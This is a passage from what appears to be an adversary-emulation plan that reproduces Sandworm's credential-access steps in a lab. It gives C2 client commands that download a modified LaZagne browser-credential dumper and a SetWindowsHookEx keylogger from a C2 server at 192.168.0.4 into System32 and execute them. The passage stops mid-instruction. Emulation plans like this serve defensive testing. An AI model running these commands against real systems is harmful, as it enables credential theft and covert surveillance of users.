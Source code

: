 Sandworm first uploads two files to disk:

```
1. C:\Windows\System32\oradump.exe
2. C:\Windows\System32\mslog.exe
```

oradump.exe is a variant of the open source tool, LaZagne. It has been refactored, some functionality removed, and compiled into a portable executable via PyInstaller.

mslog.exe is a keylogger that uses the SetWindowsHookEx function; mslog.exe writes a keystroke log file to C:\Windows\System32\mslog.txt.

Sandworm obtains web browser credentials via oradump.exe.

Sandworm obtains domain admin credentials by keylogging an RDP session from a valid user.

Sandworm then gets a list of all domain hosts using dsquery.

### :biohazard: Procedures

Upload the webCredDumper to gammu over Exaramel-Windows C2 channel (HTTPS / 192.168.0.4:443):

```bash
./evalsC2client.py --set-task Exaramel-Windows "get-file https://192.168.0.4/getFile/dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe"
```

Execute the webCredDumper; you should see credentials from Chromium.

```bash
# Sandworm Team's CredRaptor tool can collect saved passwords from various internet browsers.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd C:\\Windows\\System32\\oradump.exe"
```

[Modified LaZagne](/Resources/browser-creds/Windows)

Upload keylogger to gammu.

```bash
./evalsC2client.py --set-task Exaramel-Windows "get-file https://192.168.0.4/getFile/keylogger.exe C:\\Windows\\System32\\mslog.exe"
```

Execute the keylogger, logging keystrokes to mslog.txt.

```bash
# Sandworm Team has used a keylogger to capture keystrokes by using the SetWindowsHookEx function.

./evalsC2client.py --set-task Exaramel-Windows "exec-background C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt"
```

[Keylogger Source Code](/Resources/keylogger/src/SetWindowsHookEx-Keylogger.cpp)

Now we will exercise the keylogger.

:warning: Switch to the gammu-RDP-session window. 

Open the Windows RDP client on Gammu and *manually* type the following:
